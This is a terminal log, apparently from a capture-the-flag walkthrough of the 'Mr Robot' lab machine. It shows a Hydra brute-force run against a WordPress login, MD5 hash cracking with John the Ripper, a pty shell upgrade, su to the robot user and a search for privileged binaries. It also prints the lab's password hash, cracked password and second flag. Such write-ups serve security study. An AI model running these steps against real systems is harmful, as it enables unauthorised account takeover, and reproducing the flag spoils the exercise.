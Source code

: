 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-03 18:23:26
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:1/p:858235), ~28608 tries per task
[DATA] attacking http-post-form://10.10.59.193:80/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username
[STATUS] 1670.00 tries/min, 1670 tries in 00:01h, 856565 to do in 08:33h, 30 active
[STATUS] 907.33 tries/min, 2722 tries in 00:03h, 855513 to do in 15:43h, 30 active
[STATUS] 489.43 tries/min, 3426 tries in 00:07h, 854809 to do in 29:07h, 30 active
[STATUS] 320.73 tries/min, 4811 tries in 00:15h, 853424 to do in 44:21h, 30 active


line 858151  ER28-0652
ER28-0652

[jmk@arch MrRobot]$ john md5.hash --wordlist=fsocity.dic --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-08-03 19:29) 0g/s 21452Kp/s 21452Kc/s 21452KC/s 2Fwiki..ABCDEFGHIJKLMNOPQRSTUVWXYZ
$ ls
key-2-of-3.txt
password.raw-md5
$ ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
$ su robot
su: must be run from a terminal
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot

daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ whoami
whoami
robot

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959

robot@linux:/$ find / -perm +600 2>/dev/null | grep '/bin/'
find / -perm +600 2>/dev/null | grep '/bin/'
/bin/bzcmp
/bin/rbash
/bin/sed
/bin/mktemp
/bin/lesskey
/bin/mknod
/bin/ypdomainname
/bin/date
/bin/less
/bin/mountpoint
/bin/rnano
/bin/zdiff
/bin/ss
/bin/fuser